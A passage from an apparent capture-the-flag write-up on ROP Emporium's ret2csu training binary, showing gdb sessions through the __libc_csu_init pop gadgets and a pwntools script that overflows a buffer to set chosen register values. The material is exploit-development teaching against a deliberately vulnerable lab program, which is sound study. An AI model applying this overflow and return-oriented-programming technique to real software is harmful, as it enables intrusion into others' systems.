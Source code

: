 ```asm
(gdb) break *0x000000000040069a
Breakpoint 1 at 0x40069a
(gdb) r </tmp/payload
Starting program: /home/vx/Downloads/rop/rop/ret2csu/ret2csu </tmp/payload

Breakpoint 1, 0x000000000040069a in __libc_csu_init ()
(gdb) c
Continuing.
ret2csu by ROP Emporium
x86_64
Breakpoint 1, 0x000000000040069a in __libc_csu_init ()
(gdb)
```

When the program is run,it hits the set breakpoint. Type **c** command for paused process to continue the execution. When the program finishes the execution, the return address now points back to the address of our first gadget, Because of breakpoint, the execution stops. We can inspect the memory to understand the behavior of the program and values loaded in the registers.

```asm
(gdb) x/10i $rip
=> 0x40069a <__libc_csu_init+90>:	pop    rbx
   0x40069b <__libc_csu_init+91>:	pop    rbp
   0x40069c <__libc_csu_init+92>:	pop    r12
   0x40069e <__libc_csu_init+94>:	pop    r13
   0x4006a0 <__libc_csu_init+96>:	pop    r14
   0x4006a2 <__libc_csu_init+98>:	pop    r15
   0x4006a4 <__libc_csu_init+100>:	ret
   0x4006a5:	nop
   0x4006a6:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4006b0 <__libc_csu_fini>:	repz ret
```

Now we can Single step in the debugger and view the values stored in the registers of our gadget. The command for single stepping in gdb is **si**.

```asm
(gdb) i r rbx rbp r12 r13 r14 r15
rbx            0x4343434343434343  4846791580151137091
rbp            0x4242424242424242  0x4242424242424242
r12            0x4141414141414141  4702111234474983745
r13            0xdeadbeefdeadbeef  -2401053088876216593
r14            0xcafebabecafebabe  -3819410105351357762
r15            0xd00df00dd00df00d  -3454841397007486963
(gdb)
```

From assembly code code above we are able to control all the register value in our chain using our generated payload file. The code for generating the payload is shown below.

```asm
import pwn

pop_gadget = pwn.p64(0x0040069a)
payload =b"A"*32 #fill the buffer
payload +=b"B"*8 #rbp(saved)
payload += pop_gadget  #retaddr
payload += pwn.p64(0x4343434343434343)#rbx
payload += pwn.p64(0x4242424242424242)#rbp
payload += pwn.p64(0x4141414141414141) #r12
payload += pwn.p64(0xdeadbeefdeadbeef) #r13
payload += pwn.p64(0xcafebabecafebabe) #r14
payload += pwn.p64(0xd00df00dd00df00d) #r15
open('payload', 'wb').write(payload)
```
